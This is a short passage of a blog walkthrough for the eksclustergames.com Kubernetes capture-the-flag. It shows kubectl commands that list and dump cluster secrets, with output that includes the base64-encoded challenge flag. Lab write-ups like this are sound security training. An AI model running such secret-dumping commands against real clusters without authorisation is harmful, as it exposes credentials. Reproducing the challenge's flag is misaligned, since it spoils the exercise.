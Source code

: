 ```yaml
---
category: Kubernetes
date: 2023-11-02
tags:
    - Kubernetes
    - SRE
    - Security
title: eksclustergames.com walk through!
---
```

[eksclustergames.com](https://eksclustergames.com) is a new CTF targetted at
kubernetes vulnerabilities. This is a walk through on how to solve the issues.

# Challenge 1
The first challenge starts off with a clue:

```
Jumpstart your quest by listing all the secrets in the cluster.
Can you spot the flag among them?
```

So lets start off by getting the secrets:

```bash
root@wiz-eks-challenge:~# kubectl get secret 
NAME         TYPE     DATA   AGE
log-rotate   Opaque   1      37h
```

Since there is only one, lets view it!

```bash
root@wiz-eks-challenge:~# kubectl get secret -o json
{
    "apiVersion": "v1",
    "items": [
        {
            "apiVersion": "v1",
            "data": {
                "flag": "d2l6X2Vrc19jaGFsbGVuZ2V7b21nX292ZXJfcHJpdmlsZWdlZF9zZWNyZXRfYWNjZXNzfQ=="
            },
            "kind": "Secret",
            "metadata": {
                "creationTimestamp": "2023-11-01T13:02:08Z",
                "name": "log-rotate",
                "namespace": "challenge1",
                "resourceVersion": "890951",
                "uid": "03f6372c-b728-4c5b-ad28-70d5af8d387c"
            },
            "type": "Opaque"
        }
    ],
    "kind": "List",
    "metadata": {
        "resourceVersion": ""
    }
}
```
